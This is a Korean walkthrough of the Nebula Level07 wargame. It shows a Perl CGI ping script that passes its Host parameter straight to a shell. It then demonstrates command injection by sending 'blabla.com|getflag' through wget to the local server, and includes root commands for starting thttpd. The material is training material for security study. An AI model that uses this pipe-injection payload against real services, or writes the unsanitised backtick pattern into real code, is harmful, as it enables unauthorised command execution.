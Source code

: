 # Exploit-exercise Nebula Level07

```
The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.
```

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
    $host = $_[0];

    print("<html><head><title>Ping results</title></head><body><pre>");

    @output = `ping -c 3 $host 2>&1`;
    foreach $line (@output) { print "$line"; }

    print("</pre></body></html>");
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

먼저 처음 로그인 하여 `/home/flag07/` 경로로 가게 되면

`index.cgi` 파일과 `thttpd.conf` 파일이 있다.

`thttpd` 데몬을 사용하여 웹서버를 사용하는 것 같다..

위의 perl 스크립트 파일에서 `ping -c 3 $host 2>&1` 이 부분을 잘 확인하면 커맨드 인젝션이 나는 것을 확인할 수 있다.

`wget` 를 통해서 로컬 웹서버에 `blabla.com|getflag` 를 보내면 된다.

(난 이때 thttpd 가 켜져있지 않아서 직접 켜주었다. 방법은 맨 아래)

먼저 웹 서버는 로컬로 돌아가고 있을테고, 포트를 알아보면

`cat thttpd.conf | grep "port="` 라고 일벽하면 된다.

`port=7007` 이라는 결과가 나온다.

이제 `wget`의 결과를 제대로 받기 위해서 `cd ~` 를 통해 쓰기 권한이 있는 폴더로 이동한 다음,

`wget "http://127.0.0.1:7007/index.cgi?Host=blabla.com|getflag`

를 입력하고, `cat "index.cgi?Host=blabla.com|getflag"` 를 입력하면

```
<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
```

라고 뜨면서 풀리게 된다.

## 참고 : thttpd 켜는 방법

처음 로그인할 때 `nebula`, 비밀번호 `nebula` 로 로그인 한 다음 다음과 같은 명령어를 입력한다.

```
sudo su
/etc/init.d/thttpd stop
thttpd -C /home/flag07/thttpd.conf
/etc/init.d/thttpd start
```
